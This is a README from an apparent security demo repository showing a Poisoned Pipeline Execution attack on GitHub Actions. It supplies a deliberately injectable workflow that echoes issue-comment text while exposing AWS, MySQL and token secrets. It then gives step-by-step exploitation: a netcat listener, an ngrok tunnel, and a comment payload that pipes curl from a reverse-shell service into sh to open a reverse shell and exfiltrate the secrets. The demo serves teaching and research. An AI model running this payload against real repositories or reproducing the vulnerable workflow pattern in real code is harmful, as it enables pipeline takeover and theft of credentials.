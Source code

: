 # Github Actions: Poisoned Pipeline Execution


This folder showcases a GitHub Actions vulnerable to Poisoned Pipeline Execution (PPE). 

### Demo Objective 

The objective of this demo is to illustrate how an attacker can exploit a vulnerable GitHub Action setup to:

- Execute remote code.

- Exfiltrate sensitive secrets from the GitHub environment.

## Prerequisites 

To run this demo, ensure you have:

- Access to a GitHub repository with GitHub Actions enabled.

- Permission to modify GitHub Actions workflows.

- Awareness of the ethical implications of testing in a controlled environment.

## Instructions 
 
1. **Setup** : Create a new Github repository.
 
2. **Configuration** : Inside the new repo, create the `.github/workflows` repo.
 
3. **Execute** : Inside the workflow repo create a yaml file called `vulnerable.yaml` and copy the following inside:  
```yaml
name: command-injection-demo
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo ${{ github.event.comment.body }}
        env:
          AWS_API_KEY: ${{ secrets.AWS_API_KEY }}
          MYSQL_CONNECTION_STRING: ${{ secrets.MYSQL_CONNECTION_STRING }}
          GENERIC_TOKEN: ${{ secrets.GENERIC_TOKEN }}
```  

This GitHub Action workflow (`command-injection-demo`) triggers on the creation of issue comments.  
Upon activation, it retrieves the body of the comment (`${{ github.event.comment.body }}`) and echoes it directly within the workflow execution environment.  
The vulnerability lies in the lack of input sanitization for `${{ github.event.comment.body }}`.  
Since the workflow echoes this variable without any validation or sanitization, an attacker can potentially pipe and inject arbitrary operating system commands into the workflow.  
By crafting a malicious comment, an attacker could exploit this vulnerability to execute unauthorized commands within the GitHub Actions environment and exfiltrate the secrets (`AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`).  


 
4. **Exploit** : Create a new issue and add a new comment to it, see what happens:  

![legit-comment](./images/legit_issue_comment.png)  
![legit-action-run](./images/legit_action_run.png)   
 
As you can see the action was triggered by our comment and printed out the body of the comment.  

At this point we can proceed to poison the execution 😈

In order to do that we will use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat local listener:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and with that we can construct our malicious payload (you can also use ngrok public IP instead of the dns name).  

Our payload will be:  
```console
"" && sh -c 'curl https://reverse-shell.sh/<NGROK-IP-OR-DNS-NAME>:<NGROK-PUBLIC-PORT> | sh'
```  


This payload will be the body of our new malicious comment on the GitHub issue:  
![payload](./images/ppe_payload.png)  

When we leave this comment, it will trigger the GitHub Action, and that payload will be injected directly into the runner (agent) of the action and executed, thereby opening a reverse shell within the remote environment of the pipeline.    
From there, we will have the ability to exfiltrate secrets.    
Watch a demonstration of the entire workflow in the following video:  


https://github.com/R3DRUN3/sploitcraft/assets/102741679/ffd8696e-1271-469e-9629-38c3b087f28c








